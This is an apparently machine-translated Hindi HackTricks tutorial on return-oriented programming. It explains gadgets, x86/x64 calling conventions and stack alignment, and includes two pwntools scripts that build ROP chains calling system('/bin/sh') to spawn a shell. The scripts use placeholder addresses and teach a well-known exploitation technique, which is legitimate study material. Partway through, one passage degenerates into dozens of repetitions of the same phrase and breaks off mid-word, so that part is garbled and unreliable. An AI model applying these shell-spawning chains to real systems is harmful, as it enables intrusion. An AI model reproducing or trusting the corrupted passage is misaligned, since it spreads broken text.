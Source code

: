 # ROP - रिटर्न ओरिएंटेड प्रोग्रामिंग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह **The PEASS Family** की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **पीआर जमा करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>

## **मूल जानकारी**

**रिटर्न-ओरिएंटेड प्रोग्रामिंग (ROP)** एक उन्नत शोषण तकनीक है जिसका उपयोग **No-Execute (NX)** या **Data Execution Prevention (DEP)** जैसी सुरक्षा उपायों को दाखिल करने के लिए किया जाता है। शेलकोड डालने और निष्पादित करने की बजाय, एक हमलावर बाइनरी या लोडेड लाइब्रेरी में पहले से मौजूद कोड के टुकड़ों का उपयोग करता है, जिन्हें **"गैजेट्स"** कहा जाता है। प्रत्येक गैजेट सामान्यत: `ret` निर्देश के साथ समाप्त होता है और छोटे कार्य करता है, जैसे कि रजिस्टर के बीच डेटा को ले जाना या अंकगणित कार्य करना। इन गैजेट्स को एक साथ जोड़कर, एक हमलावर एक पेलोड बना सकता है जिससे वे विभिन्न कार्रवाई कर सकते हैं, NX/DEP सुरक्षा की रक्षा को पार करते हुए।

### ROP कैसे काम करता है

1. **नियंत्रण फ्लो हाइजैकिंग**: पहले, एक हमलावर को एक प्रोग्राम के नियंत्रण फ्लो को हाइजैक करने की आवश्यकता होती है, सामान्यत: एक बफर ओवरफ्लो का उपयोग करके स्टैक पर सहेजी गई वापसी पता को अधिक करने के लिए।
2. **गैजेट चेनिंग**: फिर हमलावर ध्यानपूर्वक गैजेट्स का चयन करता है और चेनिंग करता है ताकि वह वांछित कार्रवाई कर सके। इसमें किसी फ़ंक्शन के लिए तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से तार्किक तरीके से त
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadc0de

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
## ROP Chain का x64 उदाहरण

### **x64 (64-बिट) कॉलिंग कनवेंशन**

* यूनिक्स-जैसे सिस्टम्स पर **System V AMD64 ABI** कॉलिंग कनवेंशन का उपयोग करता है, जहां **पहले छह पूर्णांक या पॉइंटर आर्ग्यूमेंट को रजिस्टर `RDI`, `RSI`, `RDX`, `RCX`, `R8`, और `R9` में पास किया जाता है**। अतिरिक्त आर्ग्यूमेंट स्टैक पर पास किए जाते हैं। रिटर्न मान `RAX` में रखा जाता है।
* **Windows x64** कॉलिंग कनवेंशन में पहले चार पूर्णांक या पॉइंटर आर्ग्यूमेंट के लिए `RCX`, `RDX`, `R8`, और `R9` का उपयोग किया जाता है, अतिरिक्त आर्ग्यूमेंट स्टैक पर पास किए जाते हैं। रिटर्न मान `RAX` में रखा जाता है।
* **रजिस्टर**: 64-बिट रजिस्टर में `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, और `R8` से `R15` शामिल हैं।

#### **गैजेट्स खोजना**

हमारे उद्देश्य के लिए, हमें उन गैजेट्स पर ध्यान केंद्रित करना चाहिए जो हमें **RDI** रजिस्टर सेट करने की अनुमति देंगे (**system()** को आर्ग्यूमेंट के रूप में **"/bin/sh"** स्ट्रिंग पास करने के लिए) और फिर **system()** फ़ंक्शन को कॉल करने की। हम मान लेंगे कि हमने निम्नलिखित गैजेट्स की पहचान कर ली है:

* **pop rdi; ret**: स्टैक के शीर्ष मान को **RDI** में पॉप करता है और फिर वापस लौटता है। **system()** के लिए हमारे आर्ग्यूमेंट सेट करने के लिए आवश्यक है।
* **ret**: कुछ स्थितियों में स्टैक संरेखण के लिए उपयोगी एक सरल रिटर्न।

और हम **system()** फ़ंक्शन का पता जानते हैं।

### **ROP Chain**

नीचे एक उदाहरण है जिसमें **pwntools** का उपयोग करके एक ROP चेन सेट करने और निष्पादित करने के लिए किया गया है जो **x64** पर **system('/bin/sh')** को निष्पादित करने का उद्देश्य रखता है:
```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
ret_gadget,        # Alignment gadget, if needed
pop_rdi_gadget,    # pop rdi; ret
bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
### स्टैक समरेखण

**x86-64 ABI** सुनिश्चित करता है कि जब एक **कॉल इंस्ट्रक्शन** को निष्पादित किया जाता है, तो **स्टैक 16-बाइट समरेखित** होता है। **LIBC**, प्रदर्शन को अनुकूलित करने के लिए, **SSE इंस्ट्रक्शन** (जैसे **movaps**) का उपयोग करता है जो इस समरेखण की आवश्यकता है। यदि स्टैक सही ढंग से समरेखित नहीं है (यानी **RSP** 16 का एक गुणक नहीं है), तो **ROP श्रृंखला** में **system** जैसी फ़ंक्शन के कॉल में विफलता होगी। इसे ठीक करने के लिए, आपके ROP श्रृंखला में **system** को कॉल करने से पहले एक **ret गैजेट** जोड़ें।

## x86 बनाम x64 मुख्य अंतर

{% hint style="success" %}
क्योंकि **x64 पहले कुछ तर्कों के लिए रजिस्टर का उपयोग करता है**, इसे आम फ़ंक्शन कॉल के लिए x86 की तुलना में कम गैजेट की आवश्यकता होती है, लेकिन सही गैजेट्स का पता लगाना और उन्हें चेनिंग करना अधिक जटिल हो सकता है क्योंकि रजिस्टरों की बढ़ी हुई संख्या और बड़े पते का अंतर्वस्तु अंतर्वस्तु में वृद्धि करते हैं। **x64** आर्किटेक्चर में बढ़ी हुई रजिस्टरों की संख्या और बड़े पते का अंतर्वस्तु विकसित करने के लिए अवसर और चुनौतियाँ प्रदान करते हैं, विशेष रूप से Return-Oriented Programming (ROP) के संदर्भ में।
{% endhint %}

